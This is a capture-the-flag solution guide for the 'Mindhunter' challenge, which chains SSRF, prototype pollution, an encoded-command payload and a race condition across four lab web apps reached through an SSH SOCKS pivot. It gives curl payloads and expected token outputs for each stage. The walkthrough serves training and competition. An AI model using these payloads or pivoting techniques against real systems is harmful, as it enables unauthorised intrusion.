




# Mindhunter - Solution Guide

**Total: 1800 points | 4 tokens**

Mindhunter is a four-stage web-exploitation chain. Four internal applications
(`mind`, `body`, `soul`, `peace`) each guard a token behind a distinct web
vulnerability and cannot be reached directly - the competitor must pivot through
the `perspective` jump host. Progress is cumulative: each stage hands back the
HTTP headers and tokens required to unlock the next, and every stage also gates
its vulnerability behind a set of randomly-selected "magic" endpoints that must
be visited first.

An automated solver that recovers all four tokens end-to-end lives at
[`scripts/solve.py`](scripts/solve.py).

## Environment and Pivot Setup

The Kali workstation sits on the competitor network with the `perspective` jump
host and `challenge.pccc`. The four targets are on a separate internal network
reachable only through `perspective`.

1. From Kali, enumerate the competitor network and identify `perspective`
   (`SSH`, port `22`).
2. Establish an `SSH` dynamic `SOCKS` proxy through it:

   ```bash
   sshpass -p tartans ssh -f -N -D 9050 -o StrictHostKeyChecking=no user@perspective
   ```

3. From `perspective` (or through the tunnel), scan the internal network to find
   the four targets. They resolve as `mirror1`-`mirror4` and listen on ports
   `5001`-`5004`.
4. Route target traffic through the proxy. With `proxychains` (configure
   `socks5 127.0.0.1 9050` in `/etc/proxychains4.conf`):

   ```bash
   proxychains curl http://mirror1:5001/
   ```

   or with Python `requests` using `socks5h://127.0.0.1:9050` as the proxy.

Requests that do not originate from `perspective` are rejected with
`Unauthorized IP Detected.` - the source address must be the pivot's, so the
tunnel is mandatory. Spoofing `X-Forwarded-For` does not help.



## The Magic-Endpoint Prerequisite

Before any stage's vulnerability is armed, the application requires that a subset
of its endpoints be visited (4 for `mind`, 8 for `body`, 16 for `soul`, 32 for
`peace`). Each application publishes its endpoint catalog at `/explorer`. Visit
every listed endpoint; the ones that respond `You have found the /<name>
perspective.` are the "magic" ones and count toward the prerequisite. On `peace`
the logic is inverted - the correct endpoints answer `403` instead of `200`.

Scrape `/explorer` and hit each endpoint. Example loop against `body`:

```bash
for ep in $(proxychains curl -s http://mirror2:5002/explorer | grep -oE '"[a-z_]+"\s*:' | tr -d '":' ); do
  proxychains curl -s -H "X-Forwarded-Mind: <token1>" http://mirror2:5002/$ep | grep -o 'You have found'
done
```

`scripts/solve.py` automates this for every stage.

## Question 1 - Mind (SSRF) - 300 points

**Objective:** recover the token revealed by the `mind` application on port
`5001`.

**Reasoning:** `/explorer` on `mirror1:5001` advertises a `/fetch` endpoint with
a `url` parameter. A server that will retrieve an arbitrary URL on your behalf is
a classic Server-Side Request Forgery (SSRF) primitive.

**Steps:**

1. Visit the four magic endpoints (see above) so `/fetch` is armed.
2. Call `/fetch` with a `url` the server can actually reach. The target network
   is air-gapped, so external domains fail; point it at a reachable internal host
   (the mirror itself works). `localhost`/`127.0.0.1`/`10.1.1`-`10.3.3` are
   blocked.

   ```bash
   proxychains curl "http://mirror1:5001/fetch?url=http://mirror1:5001"
   ```

**Expected output:**

```json
{"next_headers": {"X-Forwarded-Mind": "PCCC{MI-...}", "X-Perspective": "resilience"}, "🪙 token 1": "PCCC{MI-...}"}
```

The response yields **Token 1** and the `X-Forwarded-Mind` / `X-Perspective:
resilience` headers needed for the next stage.

## Question 2 - Body (Prototype Pollution) - 400 points

**Objective:** recover the token revealed by the `body` application on port
`5002`.

**Reasoning:** `/explorer` on `mirror2:5002` lists `/stop`. `GET /stop` returns
`405 Method Not Allowed`, so try `POST`. The endpoint expects a nested JSON
object and leaks hints about a prototype that must be "polluted."

**Steps:**

1. Carry the `mind` headers: `X-Forwarded-Mind: <token1>` and
   `X-Perspective: resilience`.
2. Visit the eight magic endpoints for `body`.
3. `POST` a nested object that sets `polluted` inside `meta.__proto__`:

   ```bash
   proxychains curl -X POST http://mirror2:5002/stop \
     -H "X-Forwarded-Mind: <token1>" \
     -H "X-Perspective: resilience" \
     -H "Content-Type: application/json" \
     -d '{ "meta": { "__proto__": { "polluted": "true" } } }'
   ```

The server walks you toward the right shape via hints (`Try wrapping your
prototype in a container... like 'meta'.`, `All this smog; is it true that this
world is 'polluted'. Set it.`).

**Expected output:**

```json
{"next_headers": {"X-Forwarded-Mind": "PCCC{MI-...}", "X-Forwarded-Body": "PCCC{BO-...}", "X-Perspective": "awakened"}, "🪙 token 2": "PCCC{BO-...}"}
```

This yields **Token 2** plus `X-Forwarded-Body` and `X-Perspective: awakened`.



## Question 3 - Soul (Encoded Command) - 500 points

**Objective:** recover the token revealed by the `soul` application on port
`5003`.

**Reasoning:** `mirror3:5003` exposes `/encode`, which expects a deeply-nested
JSON payload (`task.payload.exec.cmd`) whose `cmd` is a base64 value. The server
validates the decoded value against a secret. Its error - `Your command feels...
hollow and without 'soul'.` - names the required word: `soul`.

**Steps:**

1. Carry the accumulated headers: `X-Forwarded-Mind: <token1>`,
   `X-Forwarded-Body: <token2>`, `X-Perspective: awakened`.
2. Visit the sixteen magic endpoints for `soul`.
3. Base64-encode `soul` (`c291bA==`) and submit the nested payload:

   ```bash
   proxychains curl -X POST http://mirror3:5003/encode \
     -H "X-Forwarded-Mind: <token1>" \
     -H "X-Forwarded-Body: <token2>" \
     -H "X-Perspective: awakened" \
     -H "Content-Type: application/json" \
     -d '{"task":{"payload":{"exec":{"cmd":"c291bA=="}}}}'
   ```

4. Retrieve the written token file:

   ```bash
   proxychains curl http://mirror3:5003/download_token
   ```

**Expected output:**

```text
🪙 token: PCCC{SO-...}, new header: 'X-Forwarded-Soul: PCCC{SO-...}' unlocked.
```

This yields **Token 3** and the `X-Forwarded-Soul` header. The next perspective
is `acceptance`.



## Question 4 - Peace (Race Condition) - 600 points

**Objective:** recover the token revealed by the `peace` application on port
`5004`.

**Reasoning:** `mirror4:5004` exposes `/timeout` (verb `PATCH`). A single request
records a "first move" and asks you to repeat it with the right timing. The window
is a fixed interval - two requests spaced ~10 seconds apart satisfy it.

**Steps:**

1. Carry all accumulated headers: `X-Forwarded-Mind: <token1>`,
   `X-Forwarded-Body: <token2>`, `X-Forwarded-Soul: <token3>`,
   `X-Perspective: acceptance`.
2. Visit the thirty-two magic endpoints for `peace` (their responses are
   inverted - the correct ones return `403`).
3. Send two `PATCH` requests roughly ten seconds apart:

   ```bash
   proxychains curl -X PATCH http://mirror4:5004/timeout \
     -H "X-Forwarded-Mind: <token1>" -H "X-Forwarded-Body: <token2>" \
     -H "X-Forwarded-Soul: <token3>" -H "X-Perspective: acceptance" \
     -H "Content-Type: application/json"
   sleep 10
   proxychains curl -X PATCH http://mirror4:5004/timeout \
     -H "X-Forwarded-Mind: <token1>" -H "X-Forwarded-Body: <token2>" \
     -H "X-Forwarded-Soul: <token3>" -H "X-Perspective: acceptance" \
     -H "Content-Type: application/json"
   ```

**Expected output:**

```json
{"🪙 token": "PCCC{PE-...}", "message": "🌿 You achieved peace by mastering the flow of time."}
```

This yields **Token 4** and completes the hunt.



## Automated Solver

`scripts/solve.py` performs the entire chain: it opens the `SSH` `SOCKS` tunnel,
walks each application's `/explorer` to satisfy the magic-endpoint prerequisite,
and runs each exploit in order, printing all four tokens as JSON. From a host
with `requests[socks]` and an SSH client:

```bash
python3 scripts/solve.py --ssh-host perspective --ssh-user user --ssh-pass tartans
```

Expected final line:

```json
{"token1": "PCCC{MI-...}", "token2": "PCCC{BO-...}", "token3": "PCCC{SO-...}", "token4": "PCCC{PE-...}"}
```

The manual steps above and the solver produce the same four tokens.
